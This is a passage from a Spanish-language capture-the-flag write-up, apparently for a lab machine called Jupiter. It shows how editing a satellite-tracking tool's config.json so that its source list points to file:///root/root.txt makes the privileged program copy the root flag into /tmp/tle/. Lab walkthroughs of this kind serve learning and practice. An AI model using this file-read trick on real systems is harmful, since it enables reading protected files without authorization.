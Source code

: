 ![](/assets/img/jupiter/9.png)

Y luego los guardara en ```/tmp/tle/``` como lo indica ```"tleroot": "/tmp/tle/",```

Asi que podriamos hacer que descargue de la misma maquina el archivo de la flag de root y lo guarde en el directorio ```/tmp/tle/```

Editaremos el archivo ```config.json``` y agregaremos esto en ```tlesources``` --> ```"file:///root/root.txt"```, quedando el archivo asi:

```json
{
	"tleroot": "/tmp/tle/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"file:///root/root.txt"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```
Solo lo ejecutamos y ya tendriamos la flag de root
